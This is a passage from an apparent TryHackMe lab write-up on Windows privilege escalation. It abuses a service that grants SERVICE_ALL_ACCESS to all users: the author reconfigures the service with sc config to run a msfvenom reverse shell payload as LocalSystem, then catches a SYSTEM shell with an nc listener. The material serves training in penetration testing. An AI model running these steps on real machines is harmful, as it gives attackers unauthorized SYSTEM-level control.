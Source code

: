 ```bash
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```

the `BUILTIN\\Users` has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service. Create a reverse shell  payload with msfvenom, then reconfigure thmserivce executable to point to our payload, and set the service to run as **`LocalSystem`**.

```bash
C:\Users\thm-unpriv>sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc2.exe" obj= LocalSystem
[SC] ChangeServiceConfig SUCCESS
C:\Users\thm-unpriv>sc stop THMService
[SC] ControlService FAILED 1062:
C:\Users\thm-unpriv>sc start THMService

SERVICE_NAME: THMService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 2124
        FLAGS              :

C:\Users\thm-unpriv>

```

We should receive a shell back in our attacker's machine with SYSTEM privileges

```bash
root@ip-10-10-174-91:~# nc -lvnp 4446
Listening on 0.0.0.0 4446
Connection received on 10.10.15.82 49910
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

C:\Windows\system32>whoami
whoami
nt authority\system

```
